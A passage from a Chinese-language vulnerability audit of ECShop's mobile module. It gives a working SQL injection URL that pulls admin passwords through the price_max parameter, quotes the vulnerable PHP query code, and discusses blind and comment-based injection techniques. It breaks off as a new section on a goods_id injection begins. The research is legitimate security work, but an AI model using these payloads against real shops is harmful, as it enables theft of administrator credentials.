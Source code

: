 ```
`http://127.0.0.1:8888/ecshop/upload/mobile/?m=default&amp;c=Category&amp;a=index&amp;price_max=1.0union select password from ecs_admin_user order by count desc limit 1%23`

跟进下程序执行:

`$count = model('Category')-&gt;category_get_count($this-&gt;children, $this-&gt;brand, $this-&gt;type, $this-&gt;price_min, $this-&gt;price_max, $this-&gt;ext, $this-&gt;keywords);`

执行完这个语句后可以看到:

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://ws4.sinaimg.cn/large/006tNc79gy1fytg7rladvj30o803s74r.jpg)

是正常的,继续走,下一句发现程序mysql错误,停止执行,那么跟进看下原因

```
private function category_get_goods()
    `{`
    ................................
        `}`
        if ($this-&gt;brand &gt; 0) `{`
            $where .= "AND g.brand_id=$this-&gt;brand ";
        `}`
        if ($this-&gt;price_min &gt; 0) `{`
            $where .= " AND g.shop_price &gt;= $this-&gt;price_min ";
        `}`
        if ($this-&gt;price_max &gt; 0) `{`
            $where .= " AND g.shop_price &lt;= $this-&gt;price_max "; //再次拼接这个变量
        `}`

        $sql = 'SELECT g.goods_id, g.goods_name, g.goods_name_style, g.market_price, g.is_new, g.is_best, g.is_hot, g.shop_price AS org_price, g.last_update,' . "IFNULL(mp.user_price, g.shop_price * '$_SESSION[discount]') AS shop_price, g.promote_price, g.goods_type, g.goods_number, " .
            'g.promote_start_date, g.promote_end_date, g.goods_brief, g.goods_thumb , g.goods_img, xl.sales_volume ' . 'FROM ' . $this-&gt;model-&gt;pre . 'goods AS g ' . ' LEFT JOIN ' . $this-&gt;model-&gt;pre . 'touch_goods AS xl ' . ' ON g.goods_id=xl.goods_id ' . ' LEFT JOIN ' . $this-&gt;model-&gt;pre . 'member_price AS mp ' . "ON mp.goods_id = g.goods_id AND mp.user_rank = '$_SESSION[user_rank]' " . "WHERE $where $this-&gt;ext ORDER BY $sort $this-&gt;order LIMIT $start , $this-&gt;size";
        $res = $this-&gt;model-&gt;query($sql);
```

这里可以看出来`WHERE $where $this-&gt;ext` 这里又拼接进去查询了,然而这里有11列,那么查询肯定报错(前面是1列),这里我对比了下两个函数的代码,发现他们没有任何差别,所以这里很遗憾没办法进行绕过。

> 但是这里我衍生下攻击思路:
比如第二个函数里面有第二个参数可控的话,并且在前面,而第一个函数没有的话,那么我们控制第二个函数的那个参数,去注释掉我们第一个函数的第一个参数,不让mysql出错,这样就可以达到回显注入了。

这个点可以说是我感觉比较好玩的点了。

**总结来说下:**

这个点依然是半限制的盲注,时间盲注是通杀的,但是可以考虑布尔盲注,自己寻找下差异构造就行了。



## 0x8 前台FLOW cart_label_count $goods_id 半限制SQL注入

```
public function cart_label_count()`{`
    $goods_id  = I('goods_id',''); //没有intval处理
    $parent_id  = I('parent_id',''); 
    if($parent_id )`{`